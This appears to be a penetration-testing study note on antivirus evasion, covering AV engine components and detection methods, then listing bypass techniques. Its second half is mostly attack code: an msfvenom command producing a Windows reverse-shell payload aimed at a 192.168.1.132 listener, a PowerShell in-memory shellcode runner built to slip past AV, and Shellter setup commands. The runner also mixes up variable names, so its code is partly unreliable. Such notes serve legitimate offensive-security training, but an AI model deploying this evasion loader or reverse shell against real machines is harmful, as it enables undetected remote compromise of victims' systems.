

# Antivirus Evasion

### Antivirus Evasion

#### AV Engines and Components

* File Engine
  * Scheduled = scans entire filesystem.
  * Real-time = monitors new file actions
* Memory Engine
  * Scans process memory at runtime
  * Looks for binary signatures & suspicious API calls (e.g., memory injection
* Network Engine
  * Inspects inbound & outbound traffic.
  * Blocks malware connections to **C2 servers**
* Disassembler
  * Translates machine code → assembly.
  * Identifies packers, encoders/decoders used by malware.
* Emulator/Sandbox
  * Isolated environment to safely run malware.
  * Helps unpack, decode, and analyze behavior.
* Browser Plugin
  * Provides visibility inside browser sandboxes.
  * Detects malicious scripts/content.
* Machine Learning Engine
  * Detects unknown threats.

#### Detection Methods

1. Signature-based Detection
   1. Signatures can be ( File **hashes, Binary patterns, strings** unique to malware) xxd
2. Behavioral Detection
   1. Monitors **runtime behavior** of programs
3. Machine Learning Detection

#### Bypassing Antivirus Detection

1. on-disk evasion techniques
   1. Packers (zip binary code)
   2. Obfuscators
   3. Crypters
   4. All old technique and anti-reversing, anti-debugging
2. In-Memory Evasion
   1. Remote Process Memory Injection
   2. Reflective DLL Injection (LoadLibrary API)
   3. Process Hollowing
   4. Inline Hooking
   5. Rootkits

***

#### Evading AV with Thread Injection (Remote process memory injection)

1. OpenProcess()
2. VirtualAllocation()
3. WriteProcessMemory()
4. CreateRemoteThreade()&#x20;

* shell code payload

```
msfvenom -p windows/shell_reverse_tcp LPORT=4444 LHOST=192.168.1.132 -f powershell
```

```powershell
$code = '
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

[DllImport("msvcrt.dll")]
public static extern IntPtr memset(IntPtr dest, uint src, uint count);';


$var2 = Add-Type -memberDefinition $code -Name "iWin32" -namespace Win32Functions -passthru;

[Byte[]];
[Byte[]] $var1 = <Set ShellCode Here>;

$size = 0x1000;

if ($var1.Length -gt 0x1000) {$size = $var1.Length};

$x = $var2::VirtualAlloc(0,$size,0x3000,0x40);

for ($i=0;$i -le ($sc.Length-1);$i++) {$winFunc::memset([IntPtr]($x.ToInt32()+$i),
$var1[$i], 1)};
$var2::CreateThread(0,0,$x,0,0,0);for (;;) { Start-sleep 60 };
```

#### Automating the Process

* install shellter

```
sudo apt install shellter
sudo apt install wine
dpkg --add-architecture i386 && apt-get update &&
apt-get install wine32
```

<figure><figcaption></figcaption></figure>
